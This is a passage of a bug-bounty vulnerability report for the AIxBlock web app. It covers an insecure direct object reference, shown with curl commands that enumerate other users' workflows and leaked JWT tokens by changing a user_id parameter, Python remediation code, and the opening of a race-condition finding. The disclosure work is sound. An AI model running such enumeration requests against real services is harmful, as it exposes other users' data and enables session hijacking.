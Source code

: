 #### **Submission Summary:**
- **Type**: Insecure Direct Object Reference
- **Impact**: Unauthorized access to workflow data and tokens
- **Evidence**: Token exposure (`"Sensitive data pattern: token"`)
- **Risk Elevation**: JWT token leakage for session hijacking
- **Business Impact**: Session hijacking, impersonation

#### **Live Exploitation Proof:**
```bash
# Test workflow access
curl -s "https://app.aixblock.io/api/v1/workflows?user_id=1"
curl -s "https://app.aixblock.io/api/v1/workflows?user_id=2"
curl -s "https://app.aixblock.io/api/v1/workflows?user_id=999"

# Expected Response:
{
  "user_id": 1,
  "workflows": [
    {
      "id": "wf_123",
      "name": "Data Processing",
      "token": "eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9...",
      "status": "active"
    }
  ]
}
```

#### **Remediation:**
```python
# Secure workflow access with proper authorization
def get_user_workflows(user_id):
    # Validate user context
    current_user = get_current_user()
    if current_user.id != user_id and not current_user.is_admin:
        raise UnauthorizedError("Access denied")
    
    # Return user workflows
    return get_workflows_for_user(user_id)
```

---

## **📊 MEDIUM SEVERITY VULNERABILITIES - SUBMISSION READY**

### **6. Race Condition (CVSS 6.5)**

#### **Submission Summary:**
- **Type**: Race Condition (TOCTOU)
- **Impact**: Resource duplication, logic bypass
- **Evidence**: 10/10 successful concurrent requests
- **Severity Elevation**: Depends on business logic impact
- **Business Impact**: Resource exhaustion, billing manipulation
